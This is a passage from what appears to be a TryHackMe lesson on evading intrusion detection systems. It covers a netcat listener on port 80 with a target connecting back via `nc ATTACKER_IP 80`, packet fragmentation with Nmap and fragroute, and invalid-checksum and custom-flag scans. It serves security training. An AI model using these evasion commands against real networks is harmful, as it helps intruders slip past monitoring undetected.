 - On the attacker machine, to get Ncat to listen on TCP port 80, like a benign web server, you can use `ncat -lvnp 80`.
- On the target, connect to the listening server using `nc ATTACKER_IP 80`.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/b85668a256470594ea8a6310f68b5f86.png)  

### Use Session Splicing (IP Packet Fragmentation)

Another approach possible in IPv4 is IP packet fragmentation, i.e., session splicing. The assumption is that if you break the packet(s) related to an attack into smaller packets, you will avoid matching the IDS signatures. If the IDS is looking for a particular stream of bytes to detect the malicious payload, divide your payload among multiple packets. Unless the IDS reassembles the packets, the rule won’t be triggered.

Nmap offers a few options to fragment packets. You can add:

- `-f` to set the data in the IP packet to 8 bytes.
- `-ff` to limit the data in the IP packet to 16 bytes at most.
- `--mtu SIZE` to provide a custom size for data carried within the IP packet. The size should be a multiple of 8.

Suppose you want to force all your packets to be fragmented into specific sizes. In that case, you should consider using a program such as [Fragroute](https://www.monkey.org/~dugsong/fragroute/). `fragroute` can be set to read a set of rules from a given configuration file and applies them to incoming packets. For simple IP packet fragmentation, it would be enough to use a configuration file with `ip_frag SIZE` to fragment the IP data according to the provided size. The size should be a multiple of 8.

For example, you can create a configuration file `fragroute.conf` with one line, `ip_frag 16`, to fragment packets where IP data fragments don’t exceed 16 bytes. Then you would run the command `fragroute -f fragroute.conf HOST`. The host is the destination to which we would send the fragmented packets it.

### Sending Invalid Packets

Generally speaking, the response of systems to valid packets tends to be predictable. However, it can be unclear how systems would respond to invalid packets. For instance, an IDS/IPS might process an invalid packet, while the target system might ignore it. The exact behavior would require some experimentation or inside knowledge.

Nmap makes it possible to create invalid packets in a variety of ways. In particular, two common options would be to scan the target using packets that have:

- Invalid TCP/UDP checksum
- Invalid TCP flags

Nmap lets you send packets with a wrong TCP/UDP checksum using the option `--badsum`. An incorrect checksum indicates that the original packet has been altered somewhere across its path from the sending program.

Nmap also lets you send packets with custom TCP flags, including invalid ones. The option `--scanflags` lets you choose which flags you want to set.

- `URG` for Urgent
- `ACK` for Acknowledge
- `PSH` for Push
- `RST` for Reset
- `SYN` for Synchronize
- `FIN` for Finish
